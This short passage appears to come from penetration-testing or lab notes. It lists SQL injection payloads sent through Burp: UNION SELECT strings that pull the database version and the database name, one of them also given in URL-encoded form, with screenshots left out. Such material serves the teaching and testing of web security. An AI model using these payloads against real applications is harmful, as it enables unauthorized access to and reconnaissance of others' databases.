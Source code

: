 **BURP COMMAND:**

```bash
' union select 1, @@version -- -

URL-ENCODED TYPE:

' %20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%20%40%40%76%65%72%73%69%6f%6e%20%2d%2d%20%2d
```

![image.png](image%205.png)

**BURP COMMAND:**

```bash
' union select 1, database() -- -
```

![image.png](image%206.png)
